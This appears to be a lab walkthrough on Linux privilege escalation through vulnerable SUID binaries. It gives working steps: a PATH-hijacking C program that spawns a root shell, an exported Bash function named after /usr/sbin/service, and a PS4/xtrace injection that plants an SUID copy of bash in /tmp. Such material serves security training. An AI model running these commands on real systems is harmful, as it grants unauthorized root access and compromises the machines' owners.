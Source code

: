 Suppose we have a `/usr/local/bin/suid-env` SUID executable is vulnerable due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

```bash
/usr/local/bin/suid-env
```

Run strings on the file to look for strings of printable characters:

```bash
strings /usr/local/bin/suid-env
```

**One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.**

Compile this code into an executable called `service`. This code simply spawns a Bash shell.

Here is the code:

```c
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```

Compile it:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Now we have to add the path of the `service` file to the `PATH` variable, for example if the file is at `/home/user` we run the following command:

```bash
PATH=/home/user:$PATH
```

Finally, we run the `suid-env` command:

```bash
/usr/local/bin/suid-env
```


### Abusing Shell Features: Method 1

What if the file uses the absolute path of the service executable (/usr/sbin/service) to start the apache2 webserver.

Suppose the `/usr/local/bin/suid-env2` executable is identical to `/usr/local/bin/suid-env`.

Verify this with strings:

```bash
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

```bash
/bin/bash --version
```

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

```bash
function /usr/sbin/service { /bin/bash -p; }   export -f /usr/sbin/service
```

Run the suid-env2 executable to gain a root shell:

```bash
/usr/local/bin/suid-env2
```

The behavior is documented in [bash documentation command search and execution](https://www.gnu.org/software/bash/manual/bash.html#Command-Search-and-Execution). The behavior is standardized in [POSIX Shell command language, section Command search and execution](https://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_09_01_01).

### Abusing Shell Features: Method 2

**Note:** This method will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable **PS4** to display an extra prompt for debugging statements.

Run the **/usr/local/bin/suid-env2** executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Now run it:

```bash
/tmp/rootbash -p
```
